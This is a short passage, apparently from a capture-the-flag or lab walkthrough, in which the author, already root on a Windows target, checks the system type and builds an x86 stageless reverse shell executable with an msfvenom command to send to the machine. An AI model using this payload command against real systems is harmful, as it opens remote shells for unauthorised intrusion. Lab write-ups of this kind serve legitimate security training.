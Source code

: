 ![image](/posts/res/BP11.png) 

Cool!! we are already root. so now the next step is to gain a shell.
to do this we must create a shell with msfvenom and the apply the same technique we used earlier to send it over to the target machine.

from further enumeration by running the ***systeminfo*** command we can see that the system type is a x86 based PC so we would to use a x86 payload to get a reverse shell.

![image](/posts/res/sysinfo.png) 

Note: ensure to use a Stageless non-meterpreter payload!!

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```


![image](/posts/res/BP12.png) 
